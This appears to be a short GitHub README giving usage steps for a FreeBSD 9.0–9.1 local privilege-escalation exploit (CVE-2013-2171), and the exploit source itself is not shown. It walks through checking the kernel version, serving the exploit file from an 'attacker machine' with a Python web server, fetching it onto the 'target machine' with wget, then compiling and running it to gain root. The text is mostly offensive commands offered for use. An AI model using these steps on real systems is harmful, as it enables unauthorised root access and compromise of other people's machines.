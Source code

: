 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

**1° Check the kernel version**

```
uname -a

FreeBSD freebsd 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012
```

**2° Transfer this file to target**

```
Attacker machine -> python3 -m http.server 8080

Target machine -> wget IP:8080/26368.c
```

**3° Use GCC to compile the code**

```gcc 26368.c -o exploit```

**4° Run the exploit**

```./exploit```
